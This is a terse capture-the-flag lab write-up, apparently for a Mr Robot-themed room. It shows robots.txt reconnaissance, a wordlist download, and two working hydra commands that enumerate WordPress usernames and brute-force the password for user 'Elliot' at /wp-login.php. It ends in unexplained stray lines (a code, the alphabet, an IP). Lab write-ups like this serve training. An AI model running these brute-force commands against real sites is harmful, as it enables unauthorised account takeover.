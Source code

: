 we went to http://<IP>/robots.txt and then to /fsociety.dic file and /key1of2.txt file #first key

we found wordpress login page /wp-login.php and enum user with

"hydra -L fsocity.dic -p test 10.10.164.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30"

to get "Elliot" user and brute force password with

"hydra -l Elliot -P fsociety.dic 10.10.164.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30"

ER28-0652

abcdefghijklmnopqrstuvwxyz

208.185.115.6